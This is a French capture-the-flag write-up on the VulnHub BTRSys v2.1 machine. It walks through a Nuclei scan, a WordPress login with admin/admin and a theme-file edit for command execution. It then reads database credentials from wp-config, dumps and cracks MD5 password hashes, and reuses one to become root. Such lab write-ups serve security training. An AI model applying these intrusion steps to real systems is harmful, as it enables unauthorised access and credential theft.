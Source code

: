 ```yaml
---
title: "Solution du CTF BTRSys: v2 de VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [BTRSys: v2.1](https://vulnhub.com/entry/btrsys-v21,196/) était extrêmement simple et rapide à résoudre. La difficulté majeure était finalement que la VM ne parvenait pas à obtenir une adresse IP. Il fallait donc se rajouter un utilisateur sur le système afin de pouvoir exécuter `dhclient` au démarrage.

Allez, c'est parti !

Pour une fois, on va lancer `Nuclei` dessus qui nous trouve le nécessaire pour ce CTF :

```
[robots-txt] [http] [info] http://192.168.56.180/robots.txt
[options-method] [http] [info] http://192.168.56.180/ [GET,HEAD,POST,OPTIONS]
[robots-txt-endpoint] [http] [info] http://192.168.56.180/robots.txt
[robots-txt-endpoint] [http] [info] http://192.168.56.180/wordpress/
[waf-detect:apachegeneric] [http] [info] http://192.168.56.180/
[ftp-anonymous-login] [tcp] [medium] 192.168.56.180:21
[openssh-detect] [tcp] [info] 192.168.56.180:22 [SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.1]
```

On a donc un Wordpress présent dans `/wordpress` et juste en testant on trouve que les identifiants `admin` / `admin` sont acceptés.

J'édite alors le fichier `404.php` du thème via le `Theme Editor` pour me rajouter une exécution de commande.

Je peux alors fouiller dans le système en commençant par la base de données via la configuration du wordpress :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Les hashes sont stockés en MD5 :

```console
www-data@ubuntu:/var/www/html/wordpress$ mysql -u root -p'rootpassword!' wordpress
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 57
Server version: 5.7.17-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> select * from wp_users;
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | root       | a318e4507e5a74604aafb45e4741edd3 | btrisk        | mdemir@btrisk.com |          | 2017-04-24 17:37:04 |                     |           0 | btrisk       |
|  2 | admin      | 21232f297a57a5a743894a0e4a801fc3 | admin         | ikaya@btrisk.com  |          | 2017-04-24 17:37:04 |                     |           4 | admin        |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
2 rows in set (0.00 sec)
```

Les mots de passe correspondant sont `admin` et `roottoor`.

Ce dernier correspond au compte local `root` :

```console
www-data@ubuntu:/var/www/html/wordpress$ su root
Password: 
root@ubuntu:/var/www/html/wordpress# id
uid=0(root) gid=0(root) groups=0(root)
```


